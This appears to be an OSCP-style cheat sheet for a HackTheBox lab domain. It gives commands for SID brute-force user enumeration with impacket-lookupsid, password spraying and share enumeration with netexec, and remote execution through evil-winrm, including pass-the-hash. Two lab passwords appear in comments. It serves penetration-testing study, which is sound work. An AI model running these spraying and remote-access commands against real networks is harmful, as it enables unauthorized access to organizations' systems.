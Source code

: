 Also check out:

https://github.com/nestef23/my-OSCP-notes/blob/main/Reconnaissance/SMB%20-%20445.md

## lookupsid
lookupsid.py
### Enumerate users
https://github.com/fortra/impacket/blob/master/examples/lookupsid.py

This tool will try brute forcing Windows Security Identifiers (SIDs) of any users in the AD domain.

To enumerate the domain, we can specify the `guest` user, the domain name, and `-no-pass` for no password. 
```
# No pass
impacket-lookupsid 'cicada.htb/guest'@cicada.htb -no-pass
impacket-lookupsid support@cicada.htb -no-pass

# Known pass
impacket-lookupsid user.name@cicada.htb
```

## netexec
### Password spraying
In this scenario we want to perform password spraying with a known password.
1. Gett all usernames
2. Try the password against all of them
```
impacket-lookupsid support@cicada.htb -no-pass | grep 'SidTypeUser' | sed 's/.*\\\(.*\) (SidTypeUser)/\1/' > users.txt

cat users.txt

netexec smb cicada.htb -u users.txt -p '<password>'
```
### Enumerate users
Must have user credentials.
This will show "description" field from the AD.
```
# netexec smb cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
netexec smb <domain> -u <user> -p '<password>' --users
```
### Enumerate shares
Must have user credentials.
This will show user permissions to each share
```
netexec smb <domain> -u <user> -p '<password>' --shares
```

## Evil-WinRM
Execution!
```
# evil-winrm -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' -i cicada.htb
evil-winrm -u <user> -p '<password>' -i <domain>

# Using NT hash
evil-winrm -u <user> -H '<NT hash>' -i <domain>
```
